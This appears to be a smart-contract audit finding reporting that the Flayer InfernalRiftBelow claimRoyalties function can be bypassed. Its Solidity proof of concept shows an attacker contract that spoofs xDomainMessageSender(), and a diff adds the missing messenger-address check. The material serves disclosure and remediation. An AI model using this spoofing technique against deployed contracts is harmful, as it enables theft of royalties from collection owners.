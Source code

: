 Flaky Taupe Platypus

High

# Unauthorized users can steal royalties due to wrong check logic.

## Summary
The [claimRoyalties](https://github.com/sherlock-audit/2024-08-flayer/blob/main/moongate/src/InfernalRiftBelow.sol#L220-L232) function is responsible for allowing users to claim royalties on tokens that exist on L2.
However, there is an issue in the implementation of the `ICrossDomainMessenger(msg.sender).xDomainMessageSender()` check, which could allow unauthorized parties to bypass the security mechanism and exploit the function.

## Vulnerability Detail
The vulnerability lies in the way the `ICrossDomainMessenger(msg.sender).xDomainMessageSender()` function is used to verify that the message originates from `INFERNAL_RIFT_ABOVE` on L1. The current implementation checks if the xDomainMessageSender() matches INFERNAL_RIFT_ABOVE, but this method can be bypassed because it does not properly verify that the message is coming from `CrossDomainMessenger`

The correct method should involve verifying that the message is coming from `CrossDomainMessenger` contract.
the address of `CrossDomainMessenger` is `address(0x4200000000000000000000000000000000000007)` so claimRoyalties function
must check that the call came from `address(0x4200000000000000000000000000000000000007)`


POC:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "hardhat/console.sol"; 

interface InfernalRiftBelowOnLayer2 {
    function claimRoyalties() external;
}

interface ICrossDomainMessenger {
    function xDomainMessageSender() external view returns(address); 
}

// Attacker contract. 
contract Test {
      function init() public {
          address deploy_riftBelow = address(new InfernalRiftBelow()); 
          call_claimRoyalties(deploy_riftBelow); 
      }

@>>>  function call_claimRoyalties(address riftBelow) public {
          InfernalRiftBelowOnLayer2(riftBelow).claimRoyalties();
      }
      
      function xDomainMessageSender() public view returns(address) {
          return address(0x1); 
      }
}

// InfernalRiftBelow contract on L2.
contract InfernalRiftBelow {
      
      error CrossChainSenderIsNotRiftAbove(); 
      address INFERNAL_RIFT_ABOVE = address(0x1); 

@>>>  // this function can be called by any one.
@>>>  function claimRoyalties() public {
          if (ICrossDomainMessenger(msg.sender).xDomainMessageSender() != INFERNAL_RIFT_ABOVE) {
              revert CrossChainSenderIsNotRiftAbove();
          }

          console.log("Claim Royalty Check Baypassed...");
      }
}

```

result of the test it will print console.log which means claimRoyalties check is Baypassed.

```solidity 
Claim Royalty Check Baypassed...
```

## Impact
by bypassing Any one can claim the royalties to himself this will cause collection owner to lost his royalty share. 


## Recommendation

add a check to ensure that the sender is CrossDomainMessenger which means it came from L1.

```diff
function claimRoyalties(address _collectionAddress, address _recipient, address[] calldata _tokens) public {

    // check sender is CrossDomainMessenger.
+   if (msg.sender != address(0x4200000000000000000000000000000000000007)) {
+       revert CrossChainSenderIsNotBridge();
+   }

    // Ensure that our message is sent from the L1 domain messenger
    if (ICrossDomainMessenger(msg.sender).xDomainMessageSender() != INFERNAL_RIFT_ABOVE) {
        revert CrossChainSenderIsNotRiftAbove();
    }

    // Get our L2 address from the L1
    if (!isDeployedOnL2(_collectionAddress, false)) revert L1CollectionDoesNotExist();

    // Call our ERC721Bridgable contract as the owner to claim royalties to the recipient
    ERC721Bridgable(l2AddressForL1Collection(_collectionAddress, false)).claimRoyalties(_recipient, _tokens);
    emit RoyaltyClaimFinalized(_collectionAddress, _recipient, _tokens);
}
```
